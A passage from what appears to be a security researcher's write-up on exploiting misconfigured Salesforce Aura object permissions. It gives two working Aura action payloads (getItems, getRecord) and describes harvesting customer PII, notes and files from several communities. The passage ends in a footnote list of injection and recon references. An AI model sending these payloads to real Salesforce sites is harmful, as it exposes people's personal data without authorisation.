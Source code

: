 ## Object permission issues

If admins messed up the sharing permissions on the various objects and fields, we can use some standard controllers to access the broken records.

- **getItems**: retrieves records for a given object bounded to specific user permissions, but if record permissions are misconfigured, this can retrieve records of an entire object.
```json
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"§FUZZ-EVERY-STANDARD-OBJECT§","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}
```

- **getRecord** [^get-record]: retrieves records starting from on a record id.
```json
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.detail.DetailController/ACTION$getRecord","callingDescriptor":"UNKNOWN","params":{"recordId":"§RECORD-ID§","record":null,"inContextOfComponent":"","mode":"VIEW","layoutType":"FULL","defaultFieldValues":null,"navigationLocation":"LIST_VIEW_ROW"}}]}
```

[^get-record]: [`getRecord`](https://developer.salesforce.com/docs/platform/lwc/guide/reference-wire-adapters-record.html?q=getRecord), developer.salesforce.com

{: .info }
> IDs generally look like this: `"Id":"0099g000001mWQaYHU"`

Using these controllers, I started to extract every misconfigured object from the various communities, obtaining different interesting information, including:
- customers names, surnames, emails, phone numbers, and other PII from several **Contact objects**
- names, surnames, emails and IDs (very useful for the exploitation phase) from several **Account objects**
- Other PII from different **AccountTeamMember** and **AccountContactRelation objects**
- Personal notes from some **Note objects**
- Exposed files from several **Document**, **ContentDocument** and **ContentVersion objects**
- Calendar events from **Calendar objects**
- and other information from some other standard and custom objects, like **Knowledge__kav**, **KnowledgeArticleVersion**, **ProcessInstanceWorkitem**, **CollaborationGroup** and many others

![]({{page.screenshots}}salesforce-user-obj.png)
*sample data exposed by a User object*

![]({{page.screenshots}}salesforce-user-ids.png)
*list of User IDs*

![]({{page.screenshots}}salesforce-quotations.png)
*estimated quotations for customer orders*

![]({{page.screenshots}}salesforce-contact-info.png)
*personal user information*

Among the various objects, some of them will return IDs particularly related to **attachments**. You can use those IDs with some specific API to **retrieve and download the raw files** (these paths are relative to the base path, not the aura endpoint):


[^1]: [Salesforce Lightning: The Future of Sales and CRM](https://www.salesforce.com/eu/campaign/lightning/), salesforce.com
[^2]: [Lightning Platform: Building blocks of better apps](https://www.salesforce.com/eu/products/platform/lightning/), salesforce.com
[^std-objects]: [Standard Objects](https://developer.salesforce.com/docs/atlas.en-us.object_reference.meta/object_reference/sforce_api_objects_list.htm), developer.salesforce.com
[^custom-objects]: [Custom Objects](https://developer.salesforce.com/docs/atlas.en-us.object_reference.meta/object_reference/sforce_api_custom_objects_list.htm), developer.salesfroce.com
[^salesforce-objects]: [Overview of Salesforce Objects and Fields](https://developer.salesforce.com/docs/atlas.en-us.object_reference.meta/object_reference/sforce_api_objects_concepts.htm), developer.salesforce.com
[^aura-comp]: [Aura Components](https://developer.salesforce.com/docs/atlas.en-us.lightning.meta/lightning/intro_components.htm), developer.salesforce.com
[^salesforce-targets]: [Salesforce Recon Process](https://www.enumerated.ie/index/salesforce#recon%20process), enumerated.ie
[^gau]: [gau](https://github.com/lc/gau), github.com
[^waymore]: [waymore](https://github.com/xnl-h4ck3r/waymore), github.com
[^resp-grep]: [Response Grepper](https://portswigger.net/bappstore/665178d3bf494019b3e8fe53a133528b), portswigger.net
[^appomni]: [Retrieving the markup descriptor of custom Components](https://appomni.com/ao-labs/lightning-components-a-treatise-on-apex-security-from-an-external-perspective/#:~:text=Retrieving%20the%20markup%20descriptor%20of%20custom%20Components), appomni.com
[^getobjectinfo]: [`getObjectInfo`](https://developer.salesforce.com/docs/platform/lwc/guide/reference-wire-adapters-object-info.html), developer.salesforce.com
[^soql-injection-doc]: [SOQL Injection](https://developer.salesforce.com/docs/atlas.en-us.apexcode.meta/apexcode/pages_security_tips_soql_injection.htm), developer.salesforce.com
[^soql-injection]: [SQL Injection Union Based](https://hackerone.com/reports/1046084), hackerone.com
[^2nd-order-soqlinjection]: [Second-order SOQL injection through email and campaign name parameter](https://hackerone.com/reports/1039821), heckerone.com
[^soql-injaection-lab]: [SOQL Injection Lab.](https://infosecwriteups.com/soql-injection-b2c2c624cbbb), infosecwriteups.com
[^blind-soql]: [Blind SOQL Injection](https://appomni.com/ao-labs/lightning-components-a-treatise-on-apex-security-from-an-external-perspective/#:~:text=public%20or%20not.-,Blind%20SOQL%20Injection,-Basic%20SOQL%20injection), appomni.com
[^soql-subquery-blind]: [SOQL subquery blind attack](https://www.varonis.com/blog/manipulating-salesforce-public-links#:~:text=SOQL%20subquery%20blind%20attack%C2%A0), varonis.com 
[^nuclei-template]: [salesforce-aura.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/misconfiguration/salesforce-aura.yaml), github.com
[^nuclei-template2]: [salesforce-misconfiguration.yaml](https://github.com/JoshMorrison99/my-nuceli-templates/blob/main/salesforce-misconfiguration.yaml), github.com